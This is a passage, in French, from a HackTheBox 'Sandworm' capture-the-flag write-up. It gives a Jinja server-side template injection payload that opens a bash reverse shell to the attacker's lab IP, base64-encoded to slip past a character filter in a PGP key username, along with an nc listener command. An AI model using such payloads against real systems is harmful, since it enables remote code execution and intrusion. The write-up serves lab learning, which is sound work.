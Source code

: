 <img src="/assets/images/WriteUps/HackTheBox/Sandworm/idSSTI.png" width="300px" height="400px" style="display: block; margin: 0 auto"/>

On va donc adapter cela avec un revershell vers notre machine attaquant :
`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -i >& /dev/tcp/10.10.16.58/1234 0>&1').read() }}`

Lors de la création de la clé pgp, il n'est pas possible d'avoir les caractères `<>`, on va donc encoder en base64 notre payload.

```console
└─$ echo "bash -c 'bash -i >& /dev/tcp/10.10.16.58/4444 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41OC80NDQ0IDA+JjEnCg==
```

<u>Payload Final (pour le Username de la clé publqiue)</u>

`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41OC80NDQ0IDA+JjEnCg==" | base64 -d| bash').read() }}`

<u>Côté attaquant</u>
```
└─$ nc -nlvp 4444  
```
